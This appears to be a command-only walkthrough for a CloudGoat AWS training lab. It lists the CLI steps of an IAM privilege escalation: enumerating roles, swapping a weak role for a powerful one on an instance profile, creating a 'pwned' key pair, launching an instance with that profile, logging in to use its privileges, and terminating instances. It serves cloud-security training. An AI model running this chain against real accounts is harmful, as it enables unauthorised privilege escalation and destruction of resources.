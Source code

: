 `aws configure --profile Kerrigan`

`aws ec2 describe-instances --profile Kerrigan`

`aws iam list-instance-profiles --profile Kerrigan`

`aws iam list-roles --profile Kerrigan`

`aws iam remove-role-from-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-meek-role-<cloudgoat_id> --profile Kerrigan`

`aws iam add-role-to-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-mighty-role-<cloudgoat_id> --profile Kerrigan`

`aws ec2 create-key-pair --key-name pwned --profile Kerrigan --query 'KeyMaterial' --output text > pwned.pem`

`chmod 400 pwned.pem`

`aws ec2 describe-subnets --profile Kerrigan`

`aws ec2 describe-security-groups --profile Kerrigan`

`aws ec2 run-instances --image-id ami-0a313d6098716f372 --instance-type t2.micro --iam-instance-profile Arn=<instanceProfileArn> --key-name pwned --profile kerrigan --subnet-id <subnetId> --security-group-ids <securityGroupId> --region us-east-1`

`ssh -i pwned.pem ubuntu@<instancePublicIP>`

`sudo apt-get update`

`sudo apt-get install awscli`

`aws ec2 describe-instances --region us-east-1`

`aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1`
